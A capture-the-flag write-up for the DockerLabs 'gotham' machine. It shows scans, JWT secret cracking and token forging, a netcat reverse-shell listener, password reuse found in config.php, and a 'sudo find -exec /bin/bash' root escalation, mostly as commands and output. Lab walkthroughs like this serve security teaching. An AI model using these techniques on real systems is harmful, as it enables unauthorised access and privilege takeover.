







# gotham

## Executive Summary
| Machine | Author | Category | Platform |
| :--- | :--- | :--- | :--- |
| gotham | TheBat | easy | dockerlabs |

**Summary:** The target runs a web application with a JWT based authentication system. A comment in the source code reveals default credentials (`guest:guest`). Logging in yields a JWT token signed with the secret `batman`, which is cracked from the token using John. The JWT is then forged to grant an `admin` role, allowing access to an admin panel. The admin panel contains a command execution feature that is exploited to obtain a reverse shell as `www-data`. Lateral movement is performed using a reused password found in `config.php`, granting access to user `bruce`. Privilege escalation is achieved because `bruce` can run `find` as root with no password, leading to a root shell and flag capture.

---

## Reconnaissance

The initial step was to deploy the machine and perform a full port scan using nmap.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl]
└─$ sudo bash auto_deploy.sh gotham.tar    
[sudo] password for ouba: 

                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                          
                                      

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl]
└─$ nmap -sC -sV -p- -T4 $ip
Starting Nmap 7.95 ( https://nmap.org ) at 2026-07-19 22:51 WIB
Nmap scan report for 172.17.0.2
Host is up (0.0000090s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.15 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 25:49:23:35:30:24:22:4c:a5:18:e6:58:da:3f:0d:b9 (ECDSA)
|_  256 a2:af:b8:3e:fa:41:7d:b5:43:80:03:3e:2c:4c:1c:25 (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
| http-robots.txt: 2 disallowed entries 
|_/dashboard.php /admin.php
|_http-title: Gotham City Network
|_http-server-header: Apache/2.4.52 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.03 seconds
```

Only ports 22 (SSH) and 80 (HTTP) are open. The web page is titled "Gotham City Network" and `robots.txt` reveals two disallowed entries: `/dashboard.php` and `/admin.php`.

A directory enumeration was performed with gobuster.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl]
└─$ gobuster dir -u http://$ip/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -x php,html,txt,json,js,bak,sql,zip,tar,env
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8
[+] Extensions:              php,txt,json,js,sql,zip,tar,env,html,bak
[+] Timeout:                 10s
==============================================================
Starting gobuster in directory enumeration mode
==============================================================
/index.php            (Status: 200) [Size: 756]
/admin.php            (Status: 302) [Size: 0] [--> index.php]
/config.php           (Status: 200) [Size: 0]
/robots.txt           (Status: 200) [Size: 60]
/dashboard.php        (Status: 302) [Size: 0] [--> index.php]
/server-status        (Status: 403) [Size: 275]
Progress: 2426127 / 2426127 (100.00%)
==============================================================
Finished
==============================================================
```

## Initial Access

The web application on port 80 presents a login form.



Viewing the page source reveals a comment with default credentials.

```javascript
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Gotham City Network</title>
    <link rel="stylesheet" href="style.css">
</head>
<body>
    <div class="box">
        <h1>GOTHAM//NET</h1>
        <div class="sub">SECURE ACCESS TERMINAL</div>
        <form method="POST">
            <label>USERNAME</label>
            <input type="text" name="username" autocomplete="off">
            <label>PASSWORD</label>
            <input type="password" name="password">
            <button type="submit">AUTHENTICATE</button>
        </form>
            </div>
    <!-- TODO: remove the temporary guest:guest account before go-live -- W.E. -->
</body>
</html>
```

Logging in with `guest:guest` returns a JWT token.



The token was saved to a file and cracked with John.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl]
└─$ vim jwt.txt
                                                                                   
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl]
└─$ john jwt.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=HMAC-SHA256
Using default input encoding: UTF-8
Loaded 1 password hash (HMAC-SHA256 [password is key, SHA256 256/256 AVX2 8x])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
batman           (?)     
1g 0:00:00:00 DONE (2026-07-19 23:04) 6.666g/s 54613p/s 54613c/s 54613C/s 123456..whitetiger
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

The JWT secret is `batman`. The token was then forged to assign the `admin` role.



After replacing the session cookie with the forged admin token and refreshing, the admin panel becomes accessible.



The admin panel reveals a command execution feature.



The RCE feature is used to execute a reverse shell.



A netcat listener was set up on the attacking machine.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
```

The payload was triggered.



The reverse shell connects back.

```bash
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 34164
bash: cannot set terminal process group (34): Inappropriate ioctl for device
bash: no job control in this shell
www-data@2459adb7d12c:/var/www/html$ 
```

The shell was stabilized.

```bash
www-data@2459adb7d12c:/var/www/html$ which script
which script
/usr/bin/script
www-data@2459adb7d12c:/var/www/html$ script -qc /bin/bash /dev/null
script -qc /bin/bash /dev/null
www-data@2459adb7d12c:/var/www/html$ ^Z
zsh: suspended  nc -lvnp 4444
                                                                                   
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl]
└─$ stty raw -echo; fg
[1]  + continued  nc -lvnp 4444

www-data@2459adb7d12c:/var/www/html$ export TERM=xterm
www-data@2459adb7d12c:/var/www/html$ export SHELL=bash
```

## Lateral Movement

The `config.php` file on the web server revealed credentials.

```bash
www-data@2459adb7d12c:/var/www/html$ cat config.php 
<?php
// config.php — Gotham City Network (internal)
// =============================================
// Legacy DB connection. Migrar a vault pendiente.
$DB_HOST = '127.0.0.1';
$DB_USER = 'gothamdb';
$DB_PASS = 'Arkh4m_Kn1ght!';   // NOTE(W.E.): misma clave usada en la cuenta de mantenimiento

// Secreto de firma de sesiones (rotar trimestralmente)
$JWT_SECRET = 'batman';

// Cuentas de la aplicación
$USERS = [
    'guest' => ['pass' => 'guest', 'role' => 'user'],
];
?>
```

The password `Arkh4m_Kn1ght!` was used to switch to the `bruce` user.

```bash
www-data@2459adb7d12c:/var/www/html$ cat /etc/passwd | grep "sh$"
root:x:0:0:root:/root:/bin/bash
bruce:x:1000:1000::/home/bruce:/bin/bash
www-data@2459adb7d12c:/var/www/html$ su - bruce
Password: 
bruce@2459adb7d12c:~$ id
uid=1000(bruce) gid=1000(bruce) groups=1000(bruce)
bruce@2459adb7d12c:~$ ls -la
total 24
drwxr-x--- 1 bruce bruce 4096 Jun  6 01:17 .
drwxr-xr-x 1 root  root  4096 Jun  6 01:16 ..
-rw-r--r-- 1 bruce bruce  220 Jan  6  2022 .bash_logout
-rw-r--r-- 1 bruce bruce 3771 Jan  6  2022 .bashrc
-rw-r--r-- 1 bruce bruce  807 Jan  6  2022 .profile
-rw-r--r-- 1 bruce bruce   33 Jun  6 01:17 user.txt
bruce@2459adb7d12c:~$ cat user.txt 
d1f4a[REDACTED]
```

The user flag was captured.

## Privilege Escalation

Checking sudo privileges for `bruce` shows that `find` can be executed as root without a password.

```bash
bruce@2459adb7d12c:~$ which sudo
/usr/bin/sudo
bruce@2459adb7d12c:~$ sudo -l
Matching Defaults entries for bruce on 2459adb7d12c:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User bruce may run the following commands on 2459adb7d12c:
    (root) NOPASSWD: /usr/bin/find
bruce@2459adb7d12c:~$ sudo find . -exec /bin/bash \; -quit
root@2459adb7d12c:/home/bruce# cd
root@2459adb7d12c:~# id;whoami;hostname
uid=0(root) gid=0(root) groups=0(root)
root
2459adb7d12c
root@2459adb7d12c:~# cat root.txt 
a7e2c[REDACTED]
```

The root flag was obtained, completing the compromise.

---

## Attack Chain Summary
1. **Reconnaissance**: A full port scan revealed SSH and HTTP services. Directory enumeration identified several PHP endpoints including `admin.php` and `config.php`.
2. **Vulnerability Discovery**: The login page source code contained a comment exposing default credentials (`guest:guest`). The JWT token issued upon login was cracked to reveal the signing secret `batman`.
3. **Exploitation**: The JWT was forged with an `admin` role, granting access to an admin panel with a command execution feature. A reverse shell payload was sent and caught with a netcat listener.
4. **Internal Enumeration**: The `config.php` file contained a hardcoded password (`Arkh4m_Kn1ght!`), which was reused for the `bruce` user account.
5. **Privilege Escalation**: The `bruce` user had sudo rights to run `find` as root, which was leveraged to spawn a root shell.
